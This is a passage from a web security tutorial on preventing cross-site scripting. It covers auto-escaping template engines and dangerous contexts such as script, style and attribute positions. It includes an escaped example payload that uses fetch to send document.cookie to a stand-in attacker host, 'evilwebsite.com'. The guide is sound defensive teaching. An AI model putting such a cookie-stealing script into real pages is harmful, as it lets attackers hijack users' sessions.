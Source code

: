 ```html
<p class=bio>
&lt;script&gt;
  fetch(&#x27;evilwebsite.com&#x27;, { method: &#x27;POST&#x27;, data: document.cookie })
&lt;/script&gt;
</p>
```

which displays harmlessly as text.

Fortunately, as established above, you don't have to do your escaping manually—I just wanted to demonstrate how simple these concepts are. Every template engine has an auto-escaping feature, and you're going to want to use a template engine anyway. Just make sure that escaping is enabled, and send all your HTML through it.

### Only serve user-generated content inside HTML tags

This is an addendum to the template engine rule, but it's important enough to call out on its own. Do not allow your users to define arbitrary CSS or JS content, even with your auto-escaping template engine.

```html
<!-- Don't include inside script tags -->
<script>
  const userName = {{ user.name }}
</script>

<!-- Don't include inside CSS tags -->
<style>
  h1 { color: {{ user.favorite_color }} }
</style>
```

And, don't use user-defined attributes or tag names either:
```html
<!-- Don't allow user-defined tag names -->
<{{ user.tag }}></{{ user.tag }}>

<!-- Don't allow user-defined attributes -->
<a {{ user.attribute }}></a>

<!-- User-defined attribute VALUES are sometimes okay, it depends -->
<a class="{{ user.class }}"></a>

<!-- Escaped content is always safe inside HTML tags (this is fine) -->
<a>{{ user.name }}</a>
```

CSS, JavaScript, and HTML attributes are ["dangerous contexts,"](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#dangerous-contexts) places where it's not safe to allow arbitrary user input, even if it's escaped. Escaping will protect you from some vulnerabilities here, but not all of them; the vulnerabilities are varied enough that it's safest to default to not doing *any* of these.

Inserting user-generated text directly into a script tag should never be necessary, but there *are* some situations where you might let users customize their CSS or customize HTML attributes. Handling those properly will be discussed down below.
